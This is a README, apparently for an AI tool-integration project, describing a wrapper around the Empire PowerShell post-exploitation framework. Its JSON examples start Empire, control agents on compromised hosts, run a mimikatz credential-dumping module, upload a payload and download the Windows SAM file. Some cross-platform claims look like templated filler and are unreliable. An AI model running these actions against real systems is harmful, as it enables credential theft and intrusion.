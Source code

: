 # Empire PowerShell Tool

## Overview
The **Empire PowerShell Tool** is a comprehensive Empire PowerShell post-exploitation framework integration utility that provides advanced PowerShell-based attack capabilities, agent management, and post-exploitation operations. It offers cross-platform support and enterprise-grade Empire PowerShell features.

## Features
- **Empire Management**: Advanced Empire PowerShell framework management and control
- **Agent Management**: Comprehensive agent management and interaction
- **Post-Exploitation**: Advanced post-exploitation modules and capabilities
- **Cross-Platform**: Windows, Linux, macOS, Android, iOS support
- **PowerShell Operations**: Sophisticated PowerShell-based operations and attack simulation
- **Security Testing**: Advanced security testing and penetration testing capabilities

## Usage

### Empire Management
```bash
# Start Empire
{
  "action": "start_empire",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Connect to Empire
{
  "action": "connect_empire",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Agent Management
```bash
# List agents
{
  "action": "list_agents"
}

# Interact with agent
{
  "action": "interact_agent",
  "agent_id": "agent_001"
}

# Execute module
{
  "action": "execute_module",
  "agent_id": "agent_001",
  "module_name": "powershell/credentials/mimikatz/logonpasswords"
}
```

### Post-Exploitation
```bash
# Upload file
{
  "action": "upload_file",
  "agent_id": "agent_001",
  "file_path": "./payload.exe"
}

# Download file
{
  "action": "download_file",
  "agent_id": "agent_001",
  "file_path": "C:\\Windows\\System32\\config\\SAM"
}

# Take screenshot
{
  "action": "screenshot",
  "agent_id": "agent_001"
}
```

## Parameters

### Empire Parameters
- **action**: Empire PowerShell action to perform
- **empire_host**: Empire server host IP
- **empire_port**: Empire server port (default: 1337)
- **agent_id**: Agent ID for interaction

### Module Parameters
- **module_name**: Module name to execute
- **module_options**: Module options and parameters
- **listener_name**: Listener name
- **listener_type**: Listener type (http, https, dns, smb, tcp)

### Post-Exploitation Parameters
- **target_host**: Target host for lateral movement
- **file_path**: File path for upload/download operations
- **script_content**: Custom PowerShell script content

## Output Format
```json
{
  "success": true,
  "action": "list_agents",
  "result": {
    "agents": [
      {
        "agent_id": "agent_001",
        "host": "192.168.1.50",
        "user": "admin",
        "process": "powershell.exe",
        "status": "active"
      }
    ],
    "total_agents": 1
  }
}
```

## Cross-Platform Support
- **Windows**: Full support with Windows Empire PowerShell operations
- **Linux**: Complete functionality with Linux Empire PowerShell operations
- **macOS**: Full feature support with macOS Empire PowerShell operations
- **Android**: Mobile-optimized interface
- **iOS**: Native iOS integration

## Examples

### Example 1: Start Empire
```bash
# Start Empire
{
  "action": "start_empire",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Result
{
  "success": true,
  "result": {
    "empire_host": "192.168.1.100",
    "empire_port": 1337,
    "status": "started",
    "empire_version": "4.0.0"
  }
}
```

### Example 2: Agent Interaction
```bash
# Interact with agent
{
  "action": "interact_agent",
  "agent_id": "agent_001"
}

# Result
{
  "success": true,
  "result": {
    "agent_id": "agent_001",
    "status": "connected",
    "host": "192.168.1.50",
    "user": "admin"
  }
}
```

### Example 3: Module Execution
```bash
# Execute module
{
  "action": "execute_module",
  "agent_id": "agent_001",
  "module_name": "powershell/credentials/mimikatz/logonpasswords"
}

# Result
{
  "success": true,
  "result": {
    "agent_id": "agent_001",
    "module_name": "powershell/credentials/mimikatz/logonpasswords",
    "execution_status": "completed",
    "output": "Credentials extracted successfully"
  }
}
```

## Error Handling
- **Empire Errors**: Proper handling of Empire framework communication issues
- **Agent Errors**: Secure handling of agent interaction failures
- **Module Errors**: Robust error handling for module execution failures
- **PowerShell Errors**: Safe handling of PowerShell execution problems

## Related Tools
- **Cobalt Strike**: Cobalt Strike integration tools
- **Metasploit Framework**: Metasploit framework integration tools
- **Post-Exploitation**: Post-exploitation and attack simulation tools

## Version
- **Current Version**: 1.0.0
- **Last Updated**: September 2025
- **Compatibility**: MCP God Mode v1.9+

## Support
For issues or questions about the Empire PowerShell Tool, please refer to the main MCP God Mode documentation or contact the development team.
